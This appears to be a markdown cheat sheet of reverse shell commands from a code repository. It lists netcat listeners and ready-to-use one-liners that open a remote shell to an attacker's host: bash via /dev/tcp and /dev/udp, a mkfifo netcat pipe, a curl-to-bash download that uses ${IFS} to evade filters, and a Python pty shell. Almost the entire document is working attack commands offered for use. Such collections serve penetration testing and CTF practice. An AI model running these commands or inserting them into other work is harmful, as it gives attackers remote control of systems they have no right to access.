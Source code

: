 # Shell

- [Shell](#shell)
  - [Listener](#listener)
    - [Default](#default)
    - [Interactive with rlwrap](#interactive-with-rlwrap)
  - [Reverse Shell - BASH](#reverse-shell---bash)
    - [TCP](#tcp)
    - [UDP](#udp)
  - [SH + Default NC](#sh--default-nc)
    - [TCP](#tcp-1)
    - [UDP](#udp-1)
  - [cURL](#curl)
  - [Python](#python)

## Listener

### Default

```bash
nc -lvp 1337
```

### Interactive with rlwrap

```bash
rlwrap -r -f . nc -lvp 1337
```

## Reverse Shell - BASH

### TCP

```bash
/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1
```

> OR

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1" &
```

### UDP

```bash
/bin/bash -i >& /dev/udp/IP_ADDRESS/PORT 0>&1
```

> OR

```bash
/bin/bash -c "/bin/bash -i >& /dev/udp/IP_ADDRESS/PORT 0>&1" &
```

## SH + Default NC

### TCP

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LIP_ADDRESS PORT >/tmp/f
```

### UDP

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LIP_ADDRESS PORT -u >/tmp/f
```

## cURL

> Server (Attacker)

```bash
mkdir -m 700 /tmp/serverHTTP
cd /tmp/serverHTTP
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/IP_ADDRESS/PORT 0>&1" &' > index.html
python -m http.server PORT
```

> Client

```bash
curl${IFS}LIP_ADDRESS:PORT/index.html|bash
```

## Python

```python
export RHOST="LIP_ADDRESS";export RPORT=PORT;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
